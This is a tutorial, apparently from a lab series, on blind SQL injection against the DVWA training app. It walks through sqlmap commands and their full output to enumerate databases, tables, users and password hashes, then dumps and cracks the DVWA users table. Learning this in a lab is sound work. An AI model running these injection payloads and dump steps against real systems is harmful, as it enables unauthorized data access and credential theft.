

# Blind SQL Injection

In the case of blind SQL injection (bSQLi) we don't directly leak information to the browser, directly from the database. In this case, we know that there is a connection to the database, but we do not directly view information from it.

When we enter an identifier, the result is simply an indication that it exists, or not.
 

Therefore, the previous techniques will no longer work.

For these kinds of bSQLi techniques, we'll turn to a tool called "`sqlmap`".

To do this we will execute the following command:

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –dbs

As we are talking about a page that is behind an authentication mechanism, we need to pass a cookie that has the **PHPSESSID** of a session, otherwise we would be redirected to the login page. To get a valid **PHPSESSID** we can use Burp Suite, to intercept a valid Session ID. As alternative, we can also inspect the web page and discover the **PHPSESSID**.

After running the command, we can check the output of `sqlmap`. If all goes well, in the end we can confirm that the "`id`" parameter is injectable, and that we can identify the databases in the target system.

[*] starting @ 17:36:16 /2022-11-17/

    [17:36:16] [INFO] resuming back-end DBMS 'mysql' 
    [17:36:16] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:36:16] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: PHP 5.2.4, Apache 2.2.8
    back-end DBMS: MySQL >= 5.0.12
    [17:36:16] [INFO] fetching database names
    available databases [7]:
    [*] dvwa
    [*] information_schema
    [*] metasploit
    [*] mysql
    [*] owasp10
    [*] tikiwiki
    [*] tikiwiki195

    [17:36:16] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:36:16 /2022-11-17/

Once we have verified that the database is "injectable", from this point on `sqlmap` can be used to explore the information it can find. 

Let's start by listing the tables of a database: **dvwa**.

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --tables

The result is a listing of the database tables.
 
    [*] starting @ 17:40:39 /2022-11-17/

    [17:40:39] [INFO] resuming back-end DBMS 'mysql' 
    [17:40:39] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:40:39] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: PHP 5.2.4, Apache 2.2.8
    back-end DBMS: MySQL >= 5.0.12
    [17:40:39] [INFO] fetching tables for database: 'dvwa'
    Database: dvwa
    [2 tables]
    +-----------+
    | guestbook |
    | users     |
    +-----------+

    [17:40:39] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:40:39 /2022-11-17/

Check current user:

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" --current-user

Which shows:

    [*] starting @ 17:43:30 /2022-11-17/

    [17:43:30] [INFO] resuming back-end DBMS 'mysql' 
    [17:43:30] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:43:30] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: PHP 5.2.4, Apache 2.2.8
    back-end DBMS: MySQL >= 5.0.12
    [17:43:30] [INFO] fetching current user
    current user: 'root@%'
    [17:43:30] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:43:30 /2022-11-17/

List all users:

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –users

This lists all the users that access the database:

    [*] starting @ 17:44:21 /2022-11-17/

    [17:44:22] [INFO] resuming back-end DBMS 'mysql' 
    [17:44:22] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:44:22] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: Apache 2.2.8, PHP 5.2.4
    back-end DBMS: MySQL >= 5.0.12
    [17:44:22] [INFO] fetching database users
    database management system users [3]:
    [*] 'debian-sys-maint'@''
    [*] 'guest'@'%'
    [*] 'root'@'%'

    [17:44:22] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:44:22 /2022-11-17/

List the corresponding passwords (password hashes that can then be cracked using dictionary or brute force techniques. Even `sqlmap` is already equipped with these tools):

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" --users --passwords

That produces the following output:

    [*] starting @ 17:47:44 /2022-11-17/

    [17:47:44] [INFO] resuming back-end DBMS 'mysql' 
    [17:47:44] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:47:44] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: PHP 5.2.4, Apache 2.2.8
    back-end DBMS: MySQL >= 5.0.12
    [17:47:44] [INFO] fetching database users
    database management system users [3]:
    [*] 'debian-sys-maint'@''
    [*] 'guest'@'%'
    [*] 'root'@'%'

    [17:47:44] [INFO] fetching database users password hashes
    [17:47:44] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
    [17:47:44] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'                                              
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
    do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
    [17:47:49] [WARNING] no clear password(s) found
    database management system users password hashes:
    [*] debian-sys-maint [1]:
        password hash: NULL
    [*] guest [1]:
        password hash: NULL
    [*] root [1]:
        password hash: NULL

    [17:47:49] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:47:49 /2022-11-17/

Print the table structure:

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --columns

That shows the tables.

    [*] starting @ 17:49:14 /2022-11-17/

    [17:49:14] [INFO] resuming back-end DBMS 'mysql' 
    [17:49:14] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:49:14] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: Apache 2.2.8, PHP 5.2.4
    back-end DBMS: MySQL >= 5.0.12
    [17:49:14] [INFO] fetching tables for database: 'dvwa'
    [17:49:14] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
    [17:49:15] [INFO] fetching columns for table 'users' in database 'dvwa'
    Database: dvwa
    Table: guestbook
    [3 columns]
    +------------+----------------------+
    | Column     | Type                 |
    +------------+----------------------+
    | comment    | varchar(300)         |
    | comment_id | smallint(5) unsigned |
    | name       | varchar(100)         |
    +------------+----------------------+

    Database: dvwa
    Table: users
    [6 columns]
    +------------+-------------+
    | Column     | Type        |
    +------------+-------------+
    | user       | varchar(15) |
    | avatar     | varchar(70) |
    | first_name | varchar(15) |
    | last_name  | varchar(15) |
    | password   | varchar(32) |
    | user_id    | int(6)      |
    +------------+-------------+

    [17:49:15] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:49:15 /2022-11-17/

Finally, dump the contents of the database tables, and if by chance the database contains passwords (hash), attack them and show them in clear:

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --dump

Displays all the information on the tables:

    [*] starting @ 17:50:14 /2022-11-17/

    [17:50:14] [INFO] resuming back-end DBMS 'mysql' 
    [17:50:14] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:50:14] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: Apache 2.2.8, PHP 5.2.4
    back-end DBMS: MySQL >= 5.0.12
    [17:50:14] [INFO] fetching tables for database: 'dvwa'
    [17:50:14] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
    [17:50:14] [INFO] fetching entries for table 'guestbook' in database 'dvwa'
    Database: dvwa
    Table: guestbook
    [1 entry]
    +------------+------+-------------------------+
    | comment_id | name | comment                 |
    +------------+------+-------------------------+
    | 1          | test | This is a test comment. |
    +------------+------+-------------------------+

    [17:50:14] [INFO] table 'dvwa.guestbook' dumped to CSV file '/home/user/.local/share/sqlmap/output/192.168.8.142/dump/dvwa/guestbook.csv'
    [17:50:14] [INFO] fetching columns for table 'users' in database 'dvwa'
    [17:50:14] [INFO] fetching entries for table 'users' in database 'dvwa'
    [17:50:14] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
    [17:50:16] [INFO] writing hashes to a temporary file '/tmp/sqlmapta_csoz059449/sqlmaphashes-rx37k28o.txt' 
    do you want to crack them via a dictionary-based attack? [Y/n/q] y
    [17:50:18] [INFO] using hash method 'md5_generic_passwd'
    [17:50:18] [INFO] resuming password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
    [17:50:18] [INFO] resuming password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
    [17:50:18] [INFO] resuming password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
    [17:50:18] [INFO] resuming password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
    Database: dvwa
    Table: users
    [5 entries]
    +---------+---------+------------------------------------------------------+---------------------------------------------+-----------+------------+
    | user_id | user    | avatar                                               | password                                    | last_name | first_name |
    +---------+---------+------------------------------------------------------+---------------------------------------------+-----------+------------+
    | 1       | admin   | http://192.168.8.142/dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      |
    | 2       | gordonb | http://192.168.8.142/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     |
    | 3       | 1337    | http://192.168.8.142/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       |
    | 4       | pablo   | http://192.168.8.142/dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      |
    | 5       | smithy  | http://192.168.8.142/dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        |
    +---------+---------+------------------------------------------------------+---------------------------------------------+-----------+------------+

    [17:50:18] [INFO] table 'dvwa.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/192.168.8.142/dump/dvwa/users.csv'
    [17:50:18] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:50:18 /2022-11-17/
